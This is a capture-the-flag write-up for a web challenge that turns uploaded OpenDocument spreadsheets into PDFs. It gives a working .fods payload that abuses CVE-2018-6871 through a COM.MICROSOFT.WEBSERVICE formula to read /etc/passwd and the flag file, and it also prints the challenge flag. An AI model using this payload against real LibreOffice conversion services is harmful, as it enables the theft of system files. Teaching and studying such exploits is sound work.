 ![](./brief.png)

The challenge provides us with a simple web page

![](./images/start.png)

It only allows us to upload a `.fods` file (OpenDocument Flat XML Spreadsheet)

Uploading a simple file like the example below:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<office:document [..]>
    <office:body>
        <office:spreadsheet>
            <table:table table:name="1">
                <table:table-column/>
                <table:table-row>
                    <table:table-cell office:value-type="string" calcext:value-type="string">
                        <text:p>TEXT</text:p>
                    </table:table-cell>
                </table:table-row>
                <table:table-row></table:table-row>
            </table:table>
            <table:named-expressions/>
        </office:spreadsheet>
    </office:body>
</office:document>
```

Produces the document:

![](./images/test_pdf.png)

This will be used as our minimal working example later.

After attempts trying XXE (XML External Entity) attack and doing some reading I decided to actually look at the pdf produced

Downloading this `pdf` and running `exiftools` on it gives us:
```
[..]
Creator                         : Calc
Producer                        : LibreOffice 6.0
[..]
```
This shows us that the web application is converting the `.fods` file to a PDF using LibreOffice 6.0 Calc.
Doing some research on LibreOffice gives us [CVE-2018-6871](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6871)

```
LibreOffice before 5.4.5 and 6.x before 6.0.1 allows 
remote attackers to read arbitrary files via =WEBSERVICE 
calls in a document, which use the COM.MICROSOFT.WEBSERVICE function.
```

Further research also provided a [proof of concept](https://github.com/jollheef/libreoffice-remote-arbitrary-file-disclosure) on GitHub. 
Stripping this proof of concepts lets us access local files using `=WEBSERVICE`, this gives us this minimal example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<office:document [..]>
 <office:body>
  <office:spreadsheet>
   <table:calculation-settings table:automatic-find-labels="false" table:use-regular-expressions="false" table:use-wildcards="true"/>
   <table:table table:name="1">
    <table:table-column table:default-cell-style-name="Default"/>
    <table:table-row>
      <table:table-cell 
          table:formula="of:=COM.MICROSOFT.WEBSERVICE(&quot;/etc/passwd&quot;)" 
          office:value-type="string" 
          office:string-value="" 
          calcext:value-type="string">
       <text:p>#VALUE!</text:p>
     </table:table-cell>
    </table:table-row>
    <table:table-row></table:table-row>
   </table:table>
   <table:named-expressions/>
  </office:spreadsheet>
 </office:body>
</office:document>
```

When placed in the compiler we get this output!

![](./images/passwd.png)

This is the last line of the `/etc/passwd` file and shows the arbitrary file read attack was successful. This attack is very interesting because it can be executed through normally innate files such as a spreadsheet or word document.

Using the home directory we can see `/home/libreoffice_admin` as the users home directory. With a little trial and error, the file path used was `/home/libreoffice_admin/flag`.

![](./images/flag.png)

FLAG
```
fb{wh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful}
```
